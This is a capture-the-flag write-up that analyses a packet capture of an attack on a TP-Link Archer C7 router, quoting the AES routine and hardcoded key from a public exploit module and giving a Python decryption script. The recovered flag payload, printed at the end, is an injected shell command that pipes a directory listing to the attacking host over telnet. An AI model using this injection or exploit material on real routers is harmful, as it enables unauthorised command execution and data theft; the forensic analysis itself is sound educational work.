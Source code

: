 # AC1750

### Challenge Text

>My router is weird, can you help me find the problem?

### Challenge Work

Examination of the packet capture shows us a lot of conversations between 192.168.0.1 and 192.168.0.105, plus two others. If we look at packets that are directed towards 192.168.0.255 we can see that 192.168.0.1 is advertising itself as a TP-Link Archer C7 (also known as the AC1750).

If we look at all of the conversations (Wireshark > Statistics > Conversations) we can see that the final message sent from the router to the host on 192.168.0.105 appears to be a directory listing of `/` from some Unix system. This got me to thinking that remote code execution was done somehow. I then googled "AC1750 remote code execution" and [found this page](https://www.rapid7.com/db/modules/exploit/linux/misc/tplink_archer_a7_c7_lan_rce/).

I looked at the packets a bit more and tried to extract data from the packets behind the final listing, but did not find anything. I think decided to look at the [source code](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/misc/tplink_archer_a7_c7_lan_rce.rb) of the exploit, as it was linked on the above URL. When I was scrolling the source code I noticed this block:

```ruby
### Line 234
def aes_encrypt(plaintext)
    # Function encrypts perfectly 16 bytes aligned payload

    if (plaintext.length % 16 != 0)
      return
    end

    cipher = OpenSSL::Cipher.new 'AES-128-CBC'
    # in the original C code the key and IV are 256 bits long... but they still use AES-128
    iv = '1234567890abcdef'
    key = 'TPONEMESH_Kf!xn?'
    encrypted = ''
    cipher.encrypt
    cipher.iv = iv
    cipher.key = key

    # Take each 16 bytes block and encrypt it
    plaintext.scan(/.{1,16}/) do |block|
      encrypted += cipher.update(block)
    end

    encrypted
  end
```

It looks like the router is looking for encrypted packets for this exploit to work. The authors even gave us the IV and key! They also let us know that we need to break down the packet data into 16 byte chunks for decrypting. Looking further in the exploit source code told us that this exploit is executed via UDP:

```ruby
### Line 400
udp_sock.put(tpdp_packet)
```

I think filtered all UDP packets from our host (192.168.0.105) to the router (192.168.0.1) that were longer than 150 bytes (there were some other casting packets of smaller size).

![./wireshark.png](./wireshark.png)

I then exported this to JSON via Wireshark > File > Export Packet Dissections > Export as JSON. After that we can fiddle with the data and extract our payload, which contains our flag:

```python
import json
import binascii
from Crypto.Cipher import AES
import Crypto.Cipher.AES

# Open Exported JSON data that was exported from the PCAP with this filter:
# ip.src == 192.168.0.105 && udp && udp.length > 175
# Then in Wireshark: File > Export Packet Dissections > As JSON
jf = open("./ac_json.json", "r").read()

jdata = json.loads(jf)

# AES decryption information defined in the exploit code
# https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/misc/tplink_archer_a7_c7_lan_rce.rb
aes_iv = b'1234567890abcdef'
aes_key = b'TPONEMESH_Kf!xn?'

# Define out cipher object
decipher = AES.new(aes_key,AES.MODE_CBC,aes_iv)

# 16 byte chunks, please
def split_hex_string(hex_string):
    n = 32
    return [hex_string[i:i+n] for i in range(0, len(hex_string), n)]

# Iterate over all data and instantiate our global string
decoded_str = ''
for entry in jdata:
    raw_hex_data = entry['_source']["layers"]["data"]["data.data"].replace(":","")

    raw_hex_chunks = split_hex_string(raw_hex_data)
    raw_bin_chunks = [binascii.unhexlify(x) for x in raw_hex_chunks]

    decrypted_bin_chunks = [decipher.decrypt(x) for x in raw_bin_chunks]

    # The 8th chunk of each chunks_list is the tail end of a printf statement.
    # The 5th character of that chunk is the character printf is writing.
    decoded_str += decrypted_bin_chunks[7].decode("utf-8")[4]

print(decoded_str)

#"(ls -l&&echo hitcon{Why_can_one_place_be_injected_twice}>flag&&ls -l)|telnet 192.168.0.105 4321 
```

```
"(ls -l&&echo hitcon{Why_can_one_place_be_injected_twice}>flag&&ls -l)|telnet 192.168.0.105 4321 
```

